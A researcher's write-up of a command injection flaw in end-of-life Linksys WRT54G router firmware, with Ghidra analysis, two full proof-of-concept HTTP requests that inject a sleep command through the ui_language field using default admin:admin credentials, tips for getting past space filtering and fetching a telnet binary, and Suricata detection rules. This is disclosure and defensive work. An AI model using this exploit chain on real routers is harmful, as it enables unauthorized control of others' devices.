


# Linksys WRT54G - v3.1

This write up will go over how I found an exploited a command injection vulnerability in a `Linksys WRT54G` Small Office / Home Office router.

I downloaded the firmware for `Linksys WRT54G` version `3.1` from here:

[https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin](https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin)

Note that this firmware file is from 2012. According to [this link](https://www.linksys.com/us/support-article?articleNum=291978), the end of life (EOL) date for this device was:

>Prior to 2012

Since this device has been EOL'd for **at least** eight years (if not more), I am publishing this write up without reaching out to the vendor since it is unlikely to be patched at this point.  If you are still using this equipment, valid countermeasures to protect aginst this vulnerability include changing the default credentials for your router. Suricata rules are also included at the bottom of this write up.

## Hunting for Command Injection

Next I extracted the squashfs filesystem from the `FW_WRT54Gv4_4.21.5.000_20120220.bin` file using `binwalk -eM FW_WRT54Gv4_4.21.5.000_20120220.bin`.

Before I begin command injection testing, I want to know whether or not the `telnetd` or `utelnetd` binaries exist on the firmware filesystem, so I do a quick `find . -iname "*telnet*"`.  I don't find any results, so I will have to fall back to the `/bin/sleep` methodology for command injection testing. This methodology focuses on timing differences when a `sleep` sub-command is injected into a call to `system`.

Opening up `/usr/sbin/httpd` in Ghidra, we can start to look for command injection vulnerabilities. I start with the `system` function and viewing all instances of this function in the binary:



The first few calls are located in a function called `do_upgrade_post`, which by reading through it we can infer that this is the function that handles the configuration restore feature at the url path `/restore.cgi`.  



The following code is particularly interesting:

```c++
puVar7 = (undefined *)nvram_get("ui_language");
uVar8 = 0;
if (puVar7 == (undefined *)0x0) {
  puVar7 = &DAT_0047a2b8;
}
snprintf(acStack88,0x40,"cp /www/%s_lang_pack/captmp.js /tmp/.",puVar7);
system(acStack88);
```

In other words, if we can control the value of the NVRAM parameter `ui_language`, we can exploit this vulnerability.

It turns out we can control this value without any filtering happening on the server.  The following HTTP request demonstrates setting a malicious value for `ui_language` and 'primes' the vulnerability:

```http
POST http://192.168.1.1/apply.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 682
Authorization: Basic YWRtaW46YWRtaW4=
Referer: http://192.168.1.1/apply.cgi
Host: 192.168.1.1

submit_button=index&change_action=gozila_cgi&submit_type=language&action=&now_proto=dhcp&daylight_time=0&lan_ipaddr=4&wait_time=0&need_reboot=0&ui_language=%60%2fbin%2fsleep%24%7BIFS%7D23%60&wan_proto=dhcp&router_name=asdf&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=1&lan_netmask=255.255.255.0&lan_proto=dhcp&dhcp_check=&dhcp_start=100&dhcp_num=50&dhcp_lease=0&wan_dns=4&wan_dns0_0=0&wan_dns0_1=0&wan_dns0_2=0&wan_dns0_3=0&wan_dns1_0=0&wan_dns1_1=0&wan_dns1_2=0&wan_dns1_3=0&wan_dns2_0=0&wan_dns2_1=0&wan_dns2_2=0&wan_dns2_3=0&wan_wins=4&wan_wins_0=0&wan_wins_1=0&wan_wins_2=0&wan_wins_3=0&time_zone=-08+1+1&_daylight_time=1
```

The value we have chosen is:
```bash
`/bin/sleep${IFS}23`
```

If invoked in the target `system` function, it will cause the system to sleep for 23 seconds before continuing processing the request and eventually responding.

If we run the prime request and immediately follow it with an exploit request, we can achieve command injection.  The exploit request is:

```http
POST http://192.168.1.1/restore.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------169284500162711627955704791
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 362
Referer: http://192.168.1.1/Backup_Restore.asp
Host: 192.168.1.1

-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="submit_button"

Backup_Restore
-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="restore"; filename="WRT54GV2_v4.21.5.cfg"
Content-Type: application/octet-stream

-----------------------------169284500162711627955704791--
```

Pay attention to the length of time it takes for this request to complete.  The request normally takes 5-6 seconds to complete; if you run the 'prime' request first, that length of time will extend past 23 seconds to between 28-30 seconds.  This is because `sleep 23` is being passed along to the `system` function and the kernel is subsequently waiting 23 seconds to resume processing.

## Analysis
Both requests are authenticated and the exploit requires two web requests.  In reality, this is probably not a very practical exploit.  Even if the default credentials are set at `admin:admin` and you can make the two web requests, there is no easy way to gain an interactive shell since the prerequisite binaries for the telnet daemon are not present.  Also since this command injection does not return any output ("blind" command injection), it is not useful for retrieving data from the device.  One could conceivably compile their own busybox `telnetd` binary and retrieve it over HTTP using `wget` (which is installed in the firmware at `/usr/bin/wget`).  Keep in mind the `ui_language` parameter expects no space characters, and the command injection seems to fail if any space characters are present in the payload.  Use `${IFS}` in place of spaces.

## Suricata Rules to Protect Yourself

### Suricata 5.0

```
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; http.method; content:"POST"; http.header; content:"Authorization|3a 20|Basic|20|"; http.uri; content:"/apply.cgi"; startswith; http.request_body; content:"change_action=gozila_cgi"; fast_pattern; content:"submit_type=language"; content:"&ui_language="; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/R"; classtype:attempted-admin; sid:1; rev:1;) 
```

### Suricata 4.0

``` 
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; content:"POST"; http_method; content:"Authorization|3a 20|Basic|20|"; http_header; content:"/apply.cgi"; http_uri; depth:10; content:"change_action=gozila_cgi"; http_client_body; fast_pattern; content:"submit_type=language"; http_client_body; content:"&ui_language="; http_client_body; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/PR"; classtype:attempted-admin; sid:1; rev:1;)
```

Thanks to [@zoomequipd](https://twitter.com/zoomequipd) for the rules.